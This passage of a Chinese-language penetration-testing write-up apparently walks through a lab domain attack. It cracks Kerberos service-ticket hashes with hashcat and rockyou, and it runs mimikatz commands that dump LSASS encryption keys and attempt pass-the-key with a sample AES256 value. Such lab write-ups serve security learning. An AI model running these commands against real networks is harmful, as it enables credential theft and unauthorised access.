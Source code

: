   
直接破解出来啦！Admin12345，我们可以看看dc上的说明，发现我们获取了sqlsvr的密码！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7fUGyFlniayUiaWpbOF3elDjicZM45QApbX4n8PN9e8ib7TTSoZDicrfm4FA/640?wx_fmt=png&from=appmsg "")  
  
  
**破解Hash值**  
  
  
把之前用impacket套件获取的hash.txt文件放到hashcat里  
  
  
hashcat -m 13100 hash.txt /root/rockyou.txt --force  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7WxSuT23N8aE0GlDfUfkDHkBTHHXU29crMupHZW3iausC34z70VYe3Qg/640?wx_fmt=png&from=appmsg "")  
  
  
直接爆破出来啦！拿捏！  
  
##### PTK  
  
  
当系统安装了KB2871997补丁并且禁用了NTLM的时候，那我们抓取到的ntlm hash也就失去了作用，但是可以通过PTK的攻击方式获得权限。这个打了补丁才能玩呵呵。。没事，作为一种拓展吧。有点鸡肋啊。  
  
```
#主要用于 提取 Windows LSASS 进程中的 EKeys（加密密钥）
mimikatz sekurlsa::ekeys

mimikatz sekurlsa::pth /user:域用户名 /domain:域名 /aes256:aes256值
mimikatz sekurlsa::pth /user:sqlserver\administrator /domain:192.168.3.32 /aes256:39acf6c939cbfc4fd9cb36ef5aa417d2a36c4086f2e146bd663cc9885615d45e
```  
  
这里拿god.org来试试  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU79dB8tZ252uAAms6nJ6le2G7whUwCOhibjNxJl11pVSa61w4R1kykBXg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU75CZ8DsoweKyosH4xeGLe8c8DZOrTj3iaicEGIUicXkNYyBZltnWTxxGsA/640?wx_fmt=png&from=appmsg "")  
  
  
执行后web主机弹出一个shell，拥有system权限，但仍然是web主机的，没成功横向移动  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7icvIiam81JMvk2MyUN66qnshQVV4STuMiahYSQ3ThJpknM2Y0OkH5WibGA/640?wx_fmt=png&from=appmsg "")  
  
  
因此这个横向移动就失败了。。。他有点鸡肋，要打补丁且禁用NTLM。  
  
  
实战场景也不常见，太少了  
  
### 委派（基于配置）  
  
  
参考文章：  
https://forum.butian.net/share/1591  
  
  